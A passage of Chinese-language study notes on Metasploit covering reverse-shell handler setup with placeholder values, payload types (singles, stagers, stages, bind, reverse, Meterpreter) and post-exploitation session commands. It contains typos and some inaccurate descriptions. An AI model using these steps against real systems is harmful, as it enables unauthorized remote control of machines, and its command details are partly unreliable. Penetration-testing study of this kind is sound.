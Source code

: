 获取一个普通的shell 用nc就可以,但是要获取meterpreter就需要用到handle模块

```shell
use exploit/mulit/handler
set payload [PAYLOAD]
set lhost [LHOST]
set lport [LPORT]
run
```

### payloads

根据执行方式区分.payload分为:

- Singles - Singles非常小，旨在建立某种通讯，然后进入下一阶段。 例如，只是创建一个用户。
- Staged - 是一种攻击者用来将更大的文件上传到沦陷的系统的payload。
- Stages - Stages是由Stagers模块下载的payload组件。 各种payload stages提供高级功能，没有规模限制，如Meterpreter和VNC Injection。

根据连接方式区分,payload分为:

- bind - 在靶机上开放一个端口供攻击机连入
- reverse - 在本机上监听一个端口,靶机主动连接

根据功能区分,payload分为:

- shell  -  功能与系统的shell一样

- meterpreter  -  集成了很多强大的实用功能

- vnc injection  -  在目标上打开一个vnc,目标主机需安装vnc服务

  ## 后渗透阶段

### session 管理

```shell
seesions -l 			# 列出可用的session

sessions -d 			# 列出所有不活跃的session

sessions -i	[sessionId]	# 指定一个session

sessions -v				# 列出详细信息

sessions -c	[command]	# 指定一条命令,通过-i指定session

sessions -s [script]	# 在session中运行一个脚本,通过-i指定session

sessions -u	[sessionId]	# 将一个shell升级为metasploit shell

sessions -k	[sessionId]	# 杀死一个session

sessions -K				# 杀死所有session
```

### meterpreter
